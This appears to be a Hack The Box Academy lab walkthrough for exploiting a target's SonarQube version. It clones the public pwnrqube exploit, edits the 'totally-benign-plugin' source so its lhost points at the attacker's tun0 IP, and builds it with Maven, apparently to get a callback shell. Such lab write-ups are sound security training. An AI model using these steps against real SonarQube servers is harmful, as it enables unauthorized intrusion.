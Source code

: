 ![[HTB Solutions/Others/z. images/230f3c59e61bfd60b62fbcfa680bd558_MD5.jpg]]

Students will have to utilize the mentioned exploit in the section as it targets the version of SonarQube on the target - [https://github.com/braindead-sec/pwnrqube](https://github.com/braindead-sec/pwnrqube); they will have to clone the repository locally using `git clone`.

Code: shell

```shell
git clone https://github.com/braindead-sec/pwnrqube
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ git clone https://github.com/braindead-sec/pwnrqube
Cloning into 'pwnrqube'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (19/19), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 19 (delta 2), reused 8 (delta 0), pack-reused 0
Receiving objects: 100% (19/19), 33.08 MiB | 9.15 MiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Right after they have successfully cloned the repository above, students need to change their current working directory to `pwnrqube/totally-benign-plugin`.

Code: shell

```shell
cd pwnrqube/totally-benign-plugin
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ cd pwnrqube/totally-benign-plugin
```

Once students have changed their current working directory to the above-mentioned, they must change the assigned in `src/main/java/benign.java` variable `String lhost` from `127.0.0.1` to their IP from the `tun0` interface.

Code: shell

```shell
sed -i 's/127.0.0.1/PWNIP/g' src/main/java/benign.java
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~/pwnrqube/totally-benign-plugin]
└──╼ [★]$ sed -i 's/127.0.0.1/10.10.14.66/g' src/main/java/benign.java
```

After making the changes, students must run `mvn clean package`. This command will clean the package and will perform the necessary steps to build and package the project.

Code: shell

```shell
mvn clean package
```
